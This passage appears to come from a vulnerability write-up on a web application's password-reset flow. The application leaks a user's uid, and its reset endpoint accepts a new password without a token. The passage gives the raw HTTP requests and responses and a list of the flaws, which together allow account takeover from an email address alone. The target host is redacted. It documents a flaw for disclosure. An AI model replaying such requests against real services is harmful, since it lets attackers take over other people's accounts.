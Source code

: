 ```json
HTTP/2 200 OK
Content-Type: application/json

{
    "frgtPwdGetQuestionResponse":{
        "data":{
            "pwdQuestion":"",
            "pwdQuestion2":"",
            "uid":"FLTUSENE2407040512811107W",
            "email":"0xbro-test-1337@yopmail.com"
        },
        "status":"true"
    }
}
```

If the `status` was `true`, the application proceeded to reset the user's password via the `/services/foo/login/v1/password/reset` API:

```http
POST /services/foo/login/v1/password/reset HTTP/2
Host: www.redacted.com
Content-Type: application/json

{
    "rstPasswordRequest": {
        "requestData": {
            "clientAppId": "FLTUSEN",
            "country": "US",
            "language": "EN",
            "uid": "FLTUSENE2407040512811107W",
            "newPassword": "Pwn3dAcc",
            "dataSizeKey": "6c41c41706afbd392d521cee7fbdf805225fc55542f7a6db1ae98be01059c3a1"
        }
    }
}
```

```json
HTTP/2 200 OK
Content-Type: application/json

{"rstPasswordResponse":{"status":"true"}}
```

Taking a closer look at the whole process, we can notice the following issues:
1. The solution never uses tokens generated using a cryptographically safe algorithm
2. The `uid` field required to reset a specific user's password is disclosed before the reset token is validated
3. The `/password/reset` API takes for granted that the password reset token has already been validated since we have a valid `uid` and the token is not included in the request

By combining all these factors, it seems possible to reset a user's password knowing only the e-mail address.
